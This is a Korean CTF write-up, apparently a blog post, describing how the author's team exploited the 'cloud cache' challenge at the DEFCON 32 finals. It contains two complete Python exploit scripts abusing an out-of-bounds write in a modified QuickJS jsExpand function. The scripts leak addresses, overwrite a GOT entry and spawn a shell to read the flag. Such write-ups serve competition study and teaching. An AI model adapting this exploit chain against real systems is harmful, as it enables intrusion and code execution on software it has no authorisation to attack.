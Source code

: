 ```yaml
---
title: "DEFCON 32"
dateString: October 2024
draft: false
tags: ["DEFCON CTF"]
weight: 30
date: 2024-08-15
categories: ["CTF"]
# cover:
    # image: ""
---
```

![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/4779bf4917b80cd4eeccc66c064b8c41.jpg)
컨퍼런스 티켓도 구매했었는데 대회랑 겹쳐서 전날에 구경밖에 못했다.
![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/1c63c55b3cc3452d5a4dd47bd1d7752d.jpg)
숙소 1층에서 DEFCON 셔틀이 있어서 그거 타고 라스베가스 컨벤션 센터로 갈 수 있었다.
1, 2일차에는 여러 문제들 보면서 잡다한 버그들 찾다가 상대팀 패치도 분석해보고 공격 패킷도 분석하면서 시간을 보냈다.
2일차에 마지막으로 release된 Attack & Defense 문제중에 cloud cache를 잡았다.

그날 저녁 열심히 익스플로잇 코드 두 개를 준비해서 갔지만 막상 3일차에 본선장에 가서 다른 팀들한테 쏴봤더니 둘다 동작하지 않아서 당황했다.
원래 계획과는 다르게 팀원분이 다른 취약점으로 준비하신 두 개의 익스플로잇 코드를 먼저 쏘셨다.
이대로 쪽박치는줄 알았지만 코드 수정에 성공해서 많은 팀들을 때릴 수 있었다.
rate limit이 걸려있어서 exploit을 원래 자동으로 날려주는 툴이 있었는데 사용하지 못했다.
그래서 그때부터 대회 끝날때까지 라운드마다 직접 손으로 쐈다.
첫 라운드엔 MMM 플래그도 따였었는데, 패치가 지연되어서 늦게 올라갔던건지 얼마 지나지 않아 패치되었다.
MMM 분들이 패치하자마자 일부 팀들이 백도어 위험을 감수하고 패치를 그대로 적용해버려서 대회 끝날때쯤엔 두 팀 정도를 제외하고 모두 패치되었다.
# cloud cache
유저랜드 프로그램은 quickjs 프롬프트가 나오는 방식이고 커널 드라이버가 로드되어서 같이 상호작용한다.
로컬에서 돌리려고 쌩쇼를 하고 있었는데 팀원분이 유저 프로그램에서 oob를 찾아주셨다.
그래서 oob를 통해 dos를 내고 dmesg를 조합하면 뭔가 익스를 할 수 있을것 같았다.
커널쪽 취약점도 따로 있었다고 하는데 그 부분은 다른 팀원분이 익스를 해주셨다.
## exploit with dmesg
oob dos + dmesg를 조합해서 릭을 했다.
sign extension은 안되고 -1 같은 경우 0xffffffff로 계산되기에 다음 코드는 항상 dos가 난다.
```c
p.sendline('let a = [1.1]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
```
그리고 js_expand 함수 내부에서 JS_ToInt32로 두번째 인자는 검사를 하는데 첫번째 인자를 검사하지 않아 실질적으로 double을 인자로 주면 이게 주소로 인식이 된다.
```c
   ...
  else if ( (JS_ToInt32)(ctx, &new_len, argv[1].u.ptr, argv[1].tag) )
  {
    return 0LL;
  }
  else
  {
    v5 = new_len;
    v6 = *(argv->u.ptr + 4);
    *(argv->u.ptr + 8) = new_len;
    result = v5;
    *v6 = v5;
  }
  return result;
}
```
그래서 js_expand 함수 내부 로직을 통해 4 byte aaw가 가능해진다.
그런데 실질적으로 쓰기 연산 자체는 8 byte 단위여서 다른 방법을 찾기로 했다.
```python
# double array 
# element ptr | length
# heap chunk size | element 1 | element 2 ...
# --- normal oob array ---
# contraints : 0x10 aligned & oob 8bytes + type data
p.sendline('let a = [1.1]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
```
이런식으로 일반 array를 쓰면 내부적으로 64bit value | type data 가 포함된 형태로 저장되었다.
그래서 실질적으로 0x10 aligned 된 쓰기만 가능했다.
읽기를 할때도 항상 tag 검사가 있어서 실질적으로 oob leak이 불가능했다.
dmesg로 quickjs.so의 base를 구할 수 있었다.
어떻게 array를 배치해도 메모리 상에서 +0x8 위치에 있는 element pointer를 덮을 수 없었다.

그러다가 Float64Array 같은 type이 지정된 array를 만들면 type 정보가 생략된다는 것을 알았다.
```python

from pwn import *
import base64
context.log_level='debug'
def exploit(ip: str, port: int) -> str | None:
    r_info = remote(ip, port)
    r_info.recvline()
    r_info.recvuntil('telnet ')
    ip, port = r_info.recvline()[:-1].split()
    port = int(port)

    p = remote(ip, port)
    p.sendline('a = [1.1, 2.2]; jsExpand(a, -1); a[-3] = 0xdeadbeef')
    p.close()
    p = remote(ip, port)
    p.sendline('dmesg()')
    while True:
        if p.recvuntil(b'Code: ', timeout=1.5) == b'':
            break
    msg = p.recvuntil(b'undefined')
    quickjs_base = int(msg[msg.find(b'RAX:'):].split()[1],16) - 0x21078
    log.success(hex(quickjs_base))
    libc_base = quickjs_base - 0x229000# - 0x23b000 # local offset
    log.success(hex(libc_base))
    libc_got = libc_base + 0x21a098
    global_ctx = int(msg[msg.find(b'RDI:'):].split()[1],16)
    log.success(hex(global_ctx))
    heap = int(msg[msg.find(b'RSI:'):].split()[1],16)
    target = heap + 0x1bf0
    log.success(hex(target))
    p.close()
    p = remote(ip, port)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(libc_got)&0xffffffff}, {libc_got >> 32}); b[0] = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";')
    sleep(0.5)
    p.recvuntil(b'undefined')
    p.recvuntil(b'-1')
    p.recvuntil(b'\xfb')
    p.sendline('cat /fla? | base64')
    flag = base64.b64decode(p.recvline()[:-1]).decode()
    return flag

print(exploit('localhost', 9999))
```
하지만 위 방식의 익스플로잇 코드는 로컬 환경에선 동작했지만 대회장에 가서는 동작하지 않았다.
두 번째 익스플로잇처럼 수정했다면 동작했을 수 있었겠지만, 익스플로잇 수정이 완료되었을 시간엔 거의 패치가 완료되었을 것이라 생각했기에 바로 두번째 익스플로잇을 이용했다.
## exploit without dmesg
첫 번째 익스플로잇을 짜다가 발견했던 type 정보 생략을 이용해서 메모리 릭도 자체적으로 수행할 수 있을 것이라고 생각했다.
function을 정의해서 할당 관련 함수를 힙에 남기고 이를 릭해서 quickjs.so의 base를 얻을 수 있었다.
대회장에선 동작을 안해서 좀 더 안정적으로 만들기 위해 element pointer를 quickjs.so의 got로 변조해서 libc의 base를 얻도록 수정했다.
```python
from pwn import *
import base64
import struct
def exploit(ip: str, port: int) -> str | None:
    # r_info = remote(ip, port)
    # r_info.recvline()
    # r_info.recvuntil('telnet ')
    # ip, port = r_info.recvline()[:-1].split()
    # port = int(port)

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory);')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); console.log("lk:"+b[13]);')
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    object_elemnt_ptr = struct.unpack('<Q', struct.pack('<d', lk))[0] 
    log.success(hex(object_elemnt_ptr))
    p.sendline('let f = () => {return 1;};')
    sleep(0.5)
    p.sendline(f'console.log("lk:"+b[{0x48}]);')
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
    if quickjs_base == 0:
        log.info('leak failed. retrying ...')
        sleep(0.5)
        p.sendline(f'c = console.log; console.log("lk:"+b[{0x4e}]);')
        p.recvuntil(b'lk:')
        lk = float(p.recvline()[:-1])
        quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
        if quickjs_base == 0:
            for i in range(10):
                log.info(f'trying - {i}')
                sleep(0.3)
                p.sendline(f'c = console.log; console.log("lk:"+b[{0x48 + i}]);')
                p.recvuntil(b'lk:')
                lk = float(p.recvline()[:-1])
                quickjs_base = struct.unpack('<Q', struct.pack('<d', lk))[0] 
                if quickjs_base & 0xf30 == 0xf30:
                    break
    assert quickjs_base != 0
    
    quickjs_base -= 0xff30
    quickjs_got = quickjs_base + 0xa9068 # free 
    log.success(hex(quickjs_got))
    p.close()

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(quickjs_got)&0xffffffff}, {quickjs_got >> 32}); console.log("lk:"+b[0]);')
    sleep(0.5)# = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";
    p.recvuntil(b'lk:')
    lk = float(p.recvline()[:-1])
    libc_base = struct.unpack('<Q', struct.pack('<d', lk))[0] - 0xa53e0
    log.success(hex(libc_base))
    libc_got = libc_base + 0x21a098
    p.close()

    p = remote(ip, port)
    sleep(3)
    p.sendline('let memory = new ArrayBuffer(8); let view_u32 = new Uint32Array(memory); let view_f64 = new Float64Array(memory); let view_u8 = new Uint8Array(memory); function i64_to_f64(low, high) {view_u32[0] = low; view_u32[1] = high; return view_f64[0];};')
    sleep(0.5)
    p.sendline('let a = new Float64Array(4); a[0] = 1.1; a[1] = 2.2; a[2] = 3.3; jsExpand(a, -1);')
    sleep(0.5)
    p.sendline(f'let b = new Float64Array(4); b[0] = 1.1; b[1] = 2.2; b[2] = 3.3; jsExpand(b, -1); b[13] = i64_to_f64({(libc_got)&0xffffffff}, {libc_got >> 32}); b[0] = i64_to_f64({(libc_base + 0x50d70)&0xffffffff}, {libc_base >> 32}); "/bin/sh";')
    sleep(0.5)
    p.recvuntil(b'undefined')
    p.recvuntil(b'-1')
    p.recvuntil(b'\xfb')
    # p.sendline('rev /flag')
    # p.sendline("cat /flag")
    p.interactive()
# context.log_level='debug'

import sys
(exploit(f'10.10.{sys.argv[1]}.1', int(sys.argv[2])))
```

![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/e1984dde2de61b1ba18fea92027fde1f.png)
![](/blog/DEFCON_32_cloud_cache-Quickjs_exploitation/24e81fef68818f92515cc69b97e5d6eb.png)
이런식으로 매 라운드마다 팀원분들과 함께 열심히 다른팀에 쐈다.
이거 말고도 몇 가지 quickjs 1-day도 다 먹혔다고 하는데 시간이 없어서 1-day 익스는 짜지 못했다.  